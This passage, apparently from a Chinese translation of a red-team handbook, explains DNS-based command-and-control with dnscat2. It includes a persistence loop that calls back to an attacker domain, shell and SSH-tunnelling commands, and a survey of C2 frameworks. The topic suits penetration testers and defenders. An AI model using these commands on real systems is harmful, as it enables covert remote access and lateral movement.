这将在目标机器中启动 dnscat，域名查询使用了我们自定义的的权威服务器，从而创建我们的 C2 通道。 我留意到一件事是有时 dnscat2 进程会莫名其妙挂掉。这可能来自大型文件传输或者只是程序崩了。为了规避这些类型的问题，我想确认我的 dnscat payload 有返回。为此，我通常喜欢使用快速 bash 脚本启动我的 dnscat payload：
```
nohup /bin/bash -c “while true; do /opt/dnscat2/client/dnscat loca1host.com -secret 9dfj3hdsfajh37e8c902j -max-retransmits 5; sleep 3600; done” > /dev/null 2>&1 &
```

这将确保如果客户端 payload 进程因任何原因而挂掉了，它将每小时生成一个新的实例。有时你只有一次机会来运行你的 payload，那么你需要让程序自己计数！
最后，如果你要在 Windows 上跑这个 payload，你可以编译使用 dnscat2 payload......或者，为什么不在 PowerShell 中执行此操作呢？！ Luke Baggett 写了一个关于 dnscat 客户端的 PowerShell 版本->[点此查看](https://github.com/lukebaggett/dnscat2-powershell)。

#### dnscat2的连接
在我们的 payload 执行并连接回我们的攻击服务器之后，我们应该看到类似于下面的一个新的`ENCRYPTED AND VERIFIED`消息。通过输入 “window”，dnscat2 将显示所有会话。现在，我们有一个名为“1”的单行命令会话。



我们可以通过与我们的命令会话交互来生成终端样式 shell:
- 与我们的第一个命令会话进行交互
```
window -i 1
```
- 启动shell会话
```
shell
```
- 回到主会话
```
Ctrl-z
```
- 与 2 会话进行交互
```
window -i 2
```
- 现在，你应该能够运行所有 shell 命令（例如 ls）



虽然这不是最快的shell，但由于所有通信都是通过 DNS 进行的，因此它确实可以在一些 Meterpreter 或类似 shell 无法正常工作的情境下生效。 dnscat2 更好的地方是它完全支持搭建隧道。这样，如果我们想要使用来自我们的主机系统的漏洞利用模块，我们可以通过隧道和浏览器来访问其内部网站，甚至是 SSH 连接到另外的机器中，这一切都是可能的。

#### dnscat2 隧道
我们有很多时候想要将来自攻击服务器的流量通过我们的受感染主机传递到其他内部服务器。使用 dnscat2 执行此操作的最安全方法是通过本地端口转发我们的流量，然后将流量通过隧道传输到内部网络上的其他机器上。我们可以通过命令会话中的以下命令来完成此示例：
```
listen 127.0.0.1:9999 10.100.100.1:22
```

创建隧道后，我们可以返回攻击计算机上的根终端窗口，通过本地的 9999 端口使用 SSH 连接到 localhost，然后成功连接到受害者网络上的内部系统并进行身份验证。
> 译者注：这里如果看不懂，可以看看这篇文章加深理解 -> [使用SSH反向隧道进行内网穿透](http://arondight.me/2016/02/17/%E4%BD%BF%E7%94%A8SSH%E5%8F%8D%E5%90%91%E9%9A%A7%E9%81%93%E8%BF%9B%E8%A1%8C%E5%86%85%E7%BD%91%E7%A9%BF%E9%80%8F/)



这将提供各种各样的乐趣和一个很好的测试，来看你的客户的网络是否可以主动检测大量 DNS 查询和溢出。那么，请求和响应是什么样子的呢? 使用 Wireshark 快速抓包发现：dnscat2 为许多不同的长子域创建了大量不同的 DNS 请求。


现在，你可能想要测试许多其他的协议。例如，Nishang 有一个基于 PowerShell 的 ICMP Shell( http://bit.ly/2GXhdnZ )，它使用 https://github.com/inquisb/icmpsh 作为 C2 服务器。 还有其他 ICMP shell，如:
- https://github.com/jamesbarlow/icmptunnel
- https://github.com/DhavalKapil/icmptunnel 
- http://code.gerade.org/hans/

### p0wnedShell
正如 [p0wnedShell](https://github.com/Cn33liz/p0wnedShell) 的 Github 页面所述，这个工具是“用 C＃ 编写的进攻型 PowerShell 主机应用程序，它不依赖于 powershell.exe，而是在 powershell 运行空间环境（.NET）中运行 powershell 命令和函数。它包含了大量的 PowerShell 攻击模块和二进制文件，使后期利用过程变得更加容易。我们尝试的是建立一个‘一体化’的后渗透利用工具，我们可以使用它来绕过所有保护措施（至少是其中一些），p0wnedShell 中包含了所有的相关工具。你可以利用 p0wnedShell 来在活动目录环境中执行现代化的攻击，并在你的蓝队中创建意识，以帮助他们构建正确的防御策略。”

### Pupy Shell
[Pupy](https://github.com/n1nj4sec/pupy) 是“一个开源，跨平台（Windows，Linux，OSX，Android）的远程管理和后渗透利用工具，主要用python编写”。

Pupy 的一个非常棒的功能是，你可以在所有代理上运行 Python，而无需在所有主机上实际安装 Python。 因此，如果你尝试在自定义框架中编写大量攻击脚本，Pupy就是一个很合适的工具。

### PoshC2 
[PoshC2](https://github.com/nettitude/PoshC2) 是一个代理感知型 C2 框架，完全用 PowerShell 编写，以帮助渗透测试人员进行红队合作，后渗透利用和横向移动。这些工具和模块是基于我们成功的 PowerShell 会话和 Metasploit 框架的 payload 类型的汇总。PowerShell 被选为基本语言，因为它提供了所需的所有功能和丰富的拓展特性，而无需向框架引入多种语言。

### Merlin
[Merlin](https://github.com/Ne0nd0g/merlin) 利用最近开发的名为 `HTTP/2 (RFC7540)` 的协议。 “HTTP/2 的通信是多路复用的双向连接，在一个请求和响应之后不会结束。 此外，HTTP/2 是一种二进制协议，因此它紧凑、易于解析，并且如果不借助解释器的话人是几乎读不懂的”(Russel Van Tuyl 2017)。 
> 注:<br>
> 此句话出处为：<br>
> Russel Van Tuyl, "Merlin - 跨平台后持续利用 HTTP/2 C2 工具", Medium[Online], 发表于2017年12月19日, 可获取地址：<br>
> https://medium.com/@Ne0nd0g/introducing-merlin-645da3c635a <br>
> 检索于 2019 年 2 月 27 日

Merlin 是一个用 GO 编写的工具，外观和感觉类似于 PowerShell Empire，并且允许使用轻量级代理。它不支持任何类型的后渗透利用模块，因此你必须自己完成模块的开发。

### Nishang
[Nishang](https://github.com/samratashok/nishang) 是一个脚本和 payload 的框架和集合，可以使用 PowerShell 进行进攻型安全测试，渗透测试和红队测试。 Nishang 在渗透测试的所有阶段都很有用。

虽然 Nishang 实际上是一系列令人惊叹的 PowerShell 脚本的集合，但也包含一些轻量级的 C2 脚本。


## 本章总结
现在你终于准备开战。你并非像刚开始那样手无寸铁了，你有这些工具和配置过的服务器。好的准备将帮助你绕过包括网络检测工具、网络协议被拦截、基于主机的安全工具在内的任何障碍。

对于本书中的实验，我创建了基于 Kali Linux 的添加了所有工具的完整版虚拟机 -> [点此获取]( http://thehackerplaybook.com/get.php?type=THP-vm)
。在 The Hacking Playbook 的存档中，有一个名为 `List_of_Tools.txt` 的文本文件，里面列出了所有添加的工具。虚拟机的默认用户名/密码是 root/toor。
